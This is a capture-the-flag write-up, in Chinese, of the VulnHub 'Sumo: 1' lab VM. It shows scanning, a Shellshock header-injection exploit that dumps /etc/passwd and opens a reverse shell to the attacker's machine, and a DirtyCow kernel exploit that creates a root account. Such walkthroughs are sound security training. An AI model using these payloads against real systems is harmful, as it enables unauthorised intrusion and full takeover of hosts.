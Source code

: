 # Sumo: 1

2024-5-18 https://www.vulnhub.com/entry/sumo-1,480/

difficulty: Beginner

## IP

192.168.10.179

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

80 web 端口默认页面没有信息，进行目录爆破：

```
gobuster dir -u http://192.168.10.179/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

200      GET        4l       25w      177c http://192.168.10.179/
200      GET        4l       25w      177c http://192.168.10.179/index
200      GET        4l       25w      177c http://192.168.10.179/index.html
200      GET        1l        3w       14c http://192.168.10.179/cgi-bin/test
```

index 中没有有用的信息，/cgi-bin/test 中 CGI Default ! ，应该可能存在 shellshock，进行测试：

```
nmap 192.168.10.179 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test

80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

表明可以进行利用：

```
curl -H 'x: () { :; };a=`/bin/cat /etc/passwd`;echo $a' 'http://192.168.10.179/cgi-bin/test.sh' -I

root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
syslog: x:101:103::/home/syslog:/bin/false
messagebus: x:102:104::/var/run/dbus:/bin/false
sumo: x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd: x:103:65534::/var/run/sshd:/usr/sbin/nologi
```

kali 上监听 8888，创建反弹连接：

```
curl -H 'x: () { :; }; /bin/bash -i >& /dev/tcp/192.168.10.3/8888 0>&1' 'http://192.168.10.179/cgi-bin/test.sh' -I
```

在反弹的 shell 中看到了源码：

```
www-data@ubuntu:/usr/lib/cgi-bin$ cat test
cat test
#! /bin/bash
echo "Content-type: text/html"
echo ""
echo "CGI Default !"
```

看到内核版本为 Linux ubuntu 3.2.0-23，可能存在内核提权漏洞，找到了可能的 exp 34134，下载到目标机器上，进行编译 dirtycow。

编译中提示 gcc: error trying to exec 'cc1': execvp: No such file or directory，看样子是环境变量设置有问题：

```
www-data@ubuntu:/tmp$ find / -type f -name cc1 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/4.6/cc1

export PATH=/usr/lib/gcc/x86_64-linux-gnu/4.6:$PATH

gcc -pthread 40839.c -o dirty -lcrypt
./dirty

You can log in with the username 'firefart' and the password '123456'.
```

切换到 firefart:123456，得到了 root 权限的 shell：

```
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
```
